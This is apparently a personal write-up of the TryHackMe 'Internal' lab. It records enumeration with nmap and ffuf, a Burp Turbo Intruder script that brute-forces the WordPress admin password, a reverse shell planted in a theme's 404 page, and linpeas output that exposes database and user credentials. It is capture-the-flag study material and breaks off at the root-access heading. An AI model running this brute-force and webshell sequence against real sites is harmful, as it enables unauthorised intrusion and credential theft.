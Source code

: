 # (THM)

- https://tryhackme.com/room/internal
- April 10, 2023
- hard

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

### HTTP

- enter `$IP internal.thm` inside `/etc/hosts` file
- default apache page

![](screenshots/2023-04-10-13-23-56.png)

- directory brute forcing with ffuf 

```
blog                    [Status: 301, Size: 311, Words: 20, Lines: 10]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 317, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10]
```

- blog and wordpress directories are wordpress 
- for easy win, run nuclei and found 2 potential vulnerabilities
- `nuclei -u http://internal.thm/blog -tags wordpress -o nuclei_blog.txt`

![](screenshots/2023-04-10-13-48-23.png)

- username `admin` and login page
- brute force with that username 
- I used turbo intruder from burp suite

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=50,
                           requestsPerConnection=50,
                           pipeline=True
                           )
    for pwd in open('/usr/share/wordlists/rockyou.txt'):
        engine.queue(target.req, pwd.strip())

def handleResponse(req, interesting):
    if req.status != 200:
        table.add(req)
```
- found password for admin user

![](screenshots/2023-04-10-13-50-39.png)

- try to add reverse shell in 404 page

![](screenshots/2023-04-10-13-52-16.png)

- replace with custom IP and port

## User Access

- find the route that will get request our custom 404.php page
- listen with nc and curl to that url and get www-data user access

![](screenshots/2023-04-10-14-00-49.png)

- in `/var/www/html/wp-config.php` file, found database credentials

![](screenshots/2023-04-10-14-03-49.png)

- enter, not success
- interesting facts from linpeas result

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35455         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

```
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );
```

```
╔══════════╣ Searching ssl/ssh files
PermitRootLogin yes
```

```
╔══════════╣ Searching passwords in config PHP files
$dbpass='B2Ud4fEOZmVq';
$dbuser='phpmyadmin';
```

```
╔══════════╣ Unexpected in /opt (usually empty)
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
```
- in wp-save.txt file, there was a credential for user `aubreanna`

## Root Access
